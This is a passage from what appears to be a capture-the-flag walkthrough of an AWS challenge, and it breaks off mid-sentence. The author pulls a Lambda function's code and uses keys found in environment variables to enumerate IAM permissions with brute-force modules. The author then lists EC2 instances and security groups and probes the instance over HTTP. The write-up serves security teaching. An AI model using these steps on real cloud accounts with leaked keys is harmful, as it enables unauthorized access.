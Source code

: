 Look Keys and code snapshot!

We’ll come back to those keys in a second, lets grab the Lambda function and see if there is anything juicy in the code. We can do this by copying the 'Location' link and making a request to that URL. We'll get a zipped version of the function.

```
def handler(event, context):
    # You need to invoke this function to win!
    return "You win!"
```

Nothing of real interest here just the function that needs to be called to 'win' the challenge.

Lets add those keys discovered from the environment variables and see what they do:

```
aws sts get-caller-identity --profile souls-lambda
```

Neat its a new user ‘wrex’

Lets use wrex to enumerate:
```
run lambda__enum —region us-east-1
``` 
>This should fail - no permissions

    run iam__bruteforce_permissions    #Works 86 allow permissions found looks like everything is tied to an ec2
    
>This should work with 86 allow permissions, and they all seem to be ec2 permissions

Lets see what instances are running:

```
aws ec2 describe-instances --output table --profile wrex --region us-east-1
```

Looks like there is 1 instance running. It has a public IP, and the security groups seem to allow ssh and internet access based on there names. Lets confirm that by first checking the ‘http’ group:

```
aws ec2 describe-security-groups --group-id sg-01ba15f6900fb29b5 --output table --profile wrex —region us-east-1
```

The output shows that tcp 80 is allowed in to the instance. Lets check the ’ssh’ group

```
aws ec2 describe-security-groups --group-id  sg-0c7cb6af2ad26f721 --output table --profile wrex —region us-east-1
```

Looks like we also have ssh access to the box. So, what’s running on this IP on port 80? Lets curl it!

```
curl http://ec2-54-85-35-195.compute-1.amazonaws.com
```

Comes back with the response:

